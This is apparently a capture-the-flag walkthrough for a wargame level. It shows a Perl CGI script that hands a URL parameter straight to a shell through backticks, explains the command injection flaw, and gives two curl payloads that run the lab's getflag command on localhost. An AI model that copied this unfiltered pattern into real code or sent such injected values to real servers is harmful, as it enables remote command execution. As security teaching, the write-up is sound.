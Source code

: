 # Level 04

## 💡 Tips
- CGI parameters can be manipulated through the URL
- In Perl, the backtick (\`) operator executes shell commands
- `$()` syntax can be used for command substitution

## Analysis

### Perl CGI Script
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

### Vulnerability Explanation
1. Script takes 'x' parameter from URL
2. Parameter value is executed with `echo` command without any filtering
3. Vulnerable to shell command injection
4. Output is directly returned to user

## ⚔️ Attack Method

### Command Injection
```bash
curl 'localhost:4747/?x=$(getflag)'
```

### Alternative Method
```bash
curl 'localhost:4747/?x=`getflag`'
```